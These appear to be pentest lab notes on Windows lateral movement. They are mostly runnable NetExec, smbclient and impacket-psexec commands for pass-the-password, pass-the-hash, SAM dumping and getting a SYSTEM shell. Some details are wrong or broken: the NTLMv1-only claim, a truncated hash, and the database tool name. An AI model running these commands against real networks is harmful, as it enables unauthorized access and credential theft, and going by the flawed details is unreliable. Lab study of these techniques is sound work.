 If SAM hashes or passwords are dumped, we can pass them to other services/accounts to see if they work there as well.
# NetExec
https://www.netexec.wiki/
## Pass the Password
NetExec (crackmapexec is no longer supported) Pass the Password example:
```bash
nxc smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```
This command enumerates smb to check if fcastle:Password1 gets access to anything. It will list machines with Admin access as "Pwn3d!".
## Pass the Hash
Pass the Hash example (only works on NTLMv1):
```bash
nxc smb 10.0.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d0a0c9797ef98 --local-auth 
```
* --sam can dump SAM database of any pwned machines.
* --shares will list all shares that pwned machines can access.
List all nxc modules:
```bash
nxc smb -L
```
To view nxc database (that is auto-filled with data gathered from other nxc commands), do the following:
```bash
cmedb
help
# Use any of the commands displayed e.g.
hosts
creds
```
# SMBClient
SMBClient can also be used to access restricted file shares via pass the hash.
Example:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```
# PSExec/WMIExec
The PSExec script is very similar to the Sysinternals PsExec command.
To execute psexec, we can enter impacket-psexec with two arguments. The first argument is -hashes, which allows us to use NTLM hashes to authenticate to the target. The format is "LMHash:NTHash", in which we specify the Administrator NTLM hash after the colon. Since we only use the NTLM hash, we can fill the LMHash section with 32 0's.
The second argument is the target definition in the format "username@IP".
At the end of the command we could specify another argument, which is used to determine which command psexec should execute on the target system. If we leave it empty, cmd.exe will be executed, providing us with an interactive shell.
**PSExec gives you a SYSTEM shell. WMIexec gives you a shell of the user (in this case 'Administrator').**
Example:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
Note: In the above example, the 0000...: was added to the start of the hash.